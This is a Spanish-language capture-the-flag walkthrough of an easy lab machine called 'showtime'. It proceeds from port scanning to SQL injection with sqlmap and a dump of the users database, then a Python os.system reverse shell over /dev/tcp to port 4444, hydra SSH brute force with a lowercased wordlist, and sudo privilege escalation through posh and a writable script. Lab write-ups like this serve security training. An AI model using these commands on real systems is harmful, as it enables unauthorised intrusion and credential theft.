# Máquina showtime

---

Dificultad -> Fácil

---

Empezamos con un nmap

```shell
nmap -p- --open -sV -sC -sS --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e1:9a:9f:b3:17:be:3d:2e:12:05:0f:a4:61:c3:b3:76 (ECDSA)
|_  256 69:8f:5c:4f:14:b0:4d:b6:b7:59:34:4d:b9:03:40:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: cs
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Encontramos los puertos 80 y 22 asi que entro desde el navegador y nos encontramos con lo que parece una página de apuestas



Podemos ver un botón de login que nos lleva a una pagina para iniciar sesión



Pruebo a ver si es vulnerable a sqlinjection poniendo una comilla simple de usuario y cualquier cosa de contraseña lo que da un error de sql por lo que es vulnerable



Uso sqlmap para ver las bases de datos

```shell
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -dbs
```



Dumpeo la base de datos users 

```shell
sqlmap -u "http://172.17.0.2/login_page/index.php" --forms --batch -D users --dump
```



Veo varias credenciales asi que las pruebo en la pagina de inicio de sesión.



No consigo nada con lucas o santiago, pero con el usuario joe, me lleva a un panel de administración donde hay una consola que puedo poner comandos de python.

Desde aqui, me puedo mandar una reverse shell poniendo en la página

```shell
import os; os.system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'")
```

Mientras que escucho en el puerto 4444 desde mi máquina



Y estoy dentro, desde aquí hago [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/)

Intento escalar privilegios pero sudo -l me pide contraseña y find no me encuentra nada interesante asi que me pongo a buscar archivos en la máquina



En /home encuentro los usuarios joe, luciano y ubuntu, intento hacerles bruteforce pero no consigo nada.

En /tmp encuentro un archivo oculto (.hidden_text.txt)



Si lo miro lo que hay con cat, veo una larga lista de lo que dice ser sus trucos favoritos de GTA SA



Me guardo la lista a un archivo en mi máquina y en otro archivo una lista con los 3 usuarios y hago un hydra con esto

```shell
hydra -L users.txt -P passwd.txt ssh://172.17.0.2 -t 64 -I
```

Hydra no me encuentra nada, como la lista de trucos esta toda en mayúscula pruebo a pasarla toda a minuscula

```shell
tr 'A-Z' 'a-z' < archivo.txt > archivo_minusculas.txt
```

Y vuelvo a intentar con hydra con el nuevo archivo

```shell
hydra -L users.txt -P passwd_lower.txt ssh://172.17.0.2 -t 64 -I
```



Y ahora si, hydra me encuentra las credenciales de joe 

Una vez dentro como joe, veo que puedo escalar a luciano con el binario de posh



Me meto a GTFOBins y escalo a luciano usando el siguiente comando

```shell
sudo -u luciano posh
```

Una vez como luciano, veo que puedo ejecutar un script de bash como root



Veo que tengo permisos de escritura en el script asi que simplemente lo edito y pongo **`bash`** en el

```shell
echo 'bash' > /home/luciano/script.sh
```

Y al ejecutarlo con sudo acabo siendo root


